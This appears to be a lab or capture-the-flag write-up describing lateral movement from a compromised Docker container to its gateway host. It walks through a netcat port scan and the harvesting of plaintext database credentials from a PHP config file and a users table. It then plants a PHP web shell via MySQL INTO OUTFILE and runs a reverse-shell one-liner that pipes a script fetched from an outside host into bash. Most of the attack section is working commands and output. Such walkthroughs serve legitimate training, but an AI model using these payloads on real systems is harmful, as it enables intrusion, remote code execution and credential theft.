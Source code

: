 # L-SRV02 Docker Container

We entered this docker container by exploiting RCE in [L-SRV01](../L-SRV01/L-SRV01.md) web server.

## Enumeration

Using netcat to portscan with `nc -zv 127.0.0.1 1-65535` we find that the following ports are open.

```
localhost [127.0.0.1] 3306 (mysql) open
localhost [127.0.0.1] 80 (http) open
```

In the container's default gateway (`192.168.100.1`) we find that the following ports are open.

```
ip-192-168-100-1.eu-west-1.compute.internal [192.168.100.1] 8080 (http-alt) open
ip-192-168-100-1.eu-west-1.compute.internal [192.168.100.1] 3306 (mysql) open
ip-192-168-100-1.eu-west-1.compute.internal [192.168.100.1] 80 (http) open
ip-192-168-100-1.eu-west-1.compute.internal [192.168.100.1] 22 (ssh) open
```

Checking the `/var/www/admin/db_connect.php` file, we find credentials.

```
<?php

define('DB_SRV', '192.168.100.1');
define('DB_PASSWD', "!123SecureAdminDashboard321!");
define('DB_USER', 'admin');
define('DB_NAME', 'DashboardDB');

$connection = mysqli_connect(DB_SRV, DB_USER, DB_PASSWD, DB_NAME);

if($connection == false){

        die("Error: Connection to Database could not be made." . mysqli_connect_error());
}
?>
```

Username: `admin`  
Password: `!123SecureAdminDashboard321!`

Using these credentials, we can access the database in `192.168.100.1` using the command `mysql -h 192.168.100.1 -u admin -p`.

We can enumerate databases.
```
mysql> show databases;
+--------------------+
| Database           |
+--------------------+
| DashboardDB        |
| information_schema |
| mysql              |
| performance_schema |
| sys                |
+--------------------+
5 rows in set (0.00 sec)

mysql> use DashboardDB
Database changed
mysql> show tables;
+-----------------------+
| Tables_in_DashboardDB |
+-----------------------+
| users                 |
+-----------------------+
1 row in set (0.00 sec)

mysql> select * from users;
+----------+-----------------+
| username | password        |
+----------+-----------------+
| admin    | DBManagerLogin! |
| gurag    | AAAA            |
+----------+-----------------+
2 rows in set (0.00 sec)
```

Now we have more creds. 

Username: `gurag`  
Password: `AAAA`

We can exploit MySQL database to gain RCE using `select '<?php $cmd=$_GET["cmd"];system($cmd);?>' INTO OUTFILE '/var/www/html/shell.php';`.

Now we have RCE on the host machine. WE can execute commands using `curl 192.168.100.1:8080/shell.php?cmd=COMMAND`.

Now to get a reverse shell.
`curl 'http://192.168.100.1:8080/shell.php?cmd=curl%20http%3A%2F%2F10.50.104.41%3A:9999%2F/revshell.sh%7Cbash%20%26'`

Now we have RCE on [L-SRV01](../L-SRV01/L-SRV01.md) as www-data.